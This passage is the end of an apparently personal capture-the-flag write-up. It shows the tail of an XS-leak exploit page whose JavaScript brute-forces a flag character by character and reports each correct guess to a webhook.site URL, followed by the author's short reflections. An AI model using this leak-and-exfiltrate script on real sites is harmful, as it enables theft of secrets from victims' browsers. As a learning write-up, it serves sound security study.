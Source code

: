 ```html
                fetch(`https://webhook.site/6f47c639-ce29-4635-bcc9-c33ebf316fba?success=true&index=${index}&guess=${guess}`);
            }
            return time
        }
        let possible = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{}_';

        for (let j = 1; j < 40; j++) {
            for (let i = 0; i < possible.length; i++) {
                let currentTry = possible.charAt(i);
                inject(j, currentTry)
            }
        }
        </script>
    </body>
</html>
```

This was quite enjoyable and was the first time I did an XS-leak, so a great learning opportunity here. Some interesting hoops to jump over as well, and upon reflecting some of these hoops really didn't make too much sense on why the security feature was implemented like this. 

That's all the challenges I worked on, and I hope you found this writeup useful.

Hack on!